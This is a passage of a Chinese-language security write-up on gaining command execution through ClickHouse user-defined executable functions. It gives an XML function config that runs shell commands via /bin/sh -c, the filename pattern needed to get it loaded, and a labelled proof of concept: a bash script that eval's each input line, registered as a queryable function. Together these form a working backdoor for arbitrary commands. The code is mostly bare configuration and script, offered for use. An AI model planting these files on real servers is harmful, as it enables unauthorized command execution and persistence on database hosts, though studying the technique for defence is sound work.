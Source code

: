 - command  
 - 要执行的脚本名称或命令，如果 execute_direct  
 为假。  
  
这样我们可以得出结论，execute_direct  
 = 0  
 ，则将 command  
 作为参数传递给 bin/sh -c  
。然后指定一下格式，以及lifetime时间。  
  
就可以写出一个执行命令的xml。  
```
<functions>    <function>        <type>executable</type>        <name>shell</name>        <return_type>String</return_type>        <format>raw</format>        <command>id</command>        <execute_direct>0</execute_direct>        <lifetime>1</lifetime>    </function></functions>
```  
  
其中默认的配置文件夹在/etc/clickhouse-server/ ，也就是我们把他写到这个文件下就可以调用。  
  
https://github.com/ClickHouse/ClickHouse/blob/master/programs/server/config.xml  
  
这里注意文件名在config中默认配置为  
```
<user_defined_executable_functions_config>*_function.*ml</user_defined_executable_functions_config>
```  
  
所以文件名 用 xxx_function.xml 就好。  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4yw4gpWpbiavn6yZ0NvGNDGSl6flWOmAAoaOaGDGE5HfuOy8GKKsmoHg/640?wx_fmt=png&from=appmsg "")  
  
创建后可以进行查询  
  
通过继续查看后，可以发现，clickhouse可以调用python脚本、sh脚本。  
  
配置也是差不多，和上面的xml一样，在<execute_direct>为true的时候，command会在**/var/lib/clickhouse/user_scripts/**下找对应的脚本。默认不填写是为true。  
  
这里给一个poc  
  
/var/lib/clickhouse/user_scripts/test_shell.sh  
```
#!/bin/bashwhile read read_data;    do eval " $read_data ";done
```  
  
/etc/clickhouse-server/test4_function.xml  
```
<functions>    <function>        <type>executable</type>        <name>test_shell</name>        <return_type>String</return_type>        <argument>            <type>String</type>            <name>str</name>        </argument>        <format>raw</format>        <command>test_shell.sh</command>        <lifetime>1</lifetime>    </function></functions>
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4A4QYWibDPKWDc1432Dx56JTiacvNzMoGJdmphDegwbFiarIrm7KrjSxbw/640?wx_fmt=png&from=appmsg "")  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4N5CV38aA5BRkIichLIClX14KctTbzM8U5ak2iasGgylaN1VCharGMibicQ/640?wx_fmt=png&from=appmsg "")  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4L2TxsYhvuuibhmg3ibAplC8QicvXAeibw8iaeavwnk3ib0wtbBuhkVicwNUsg/640?wx_fmt=png&from=appmsg "")  
  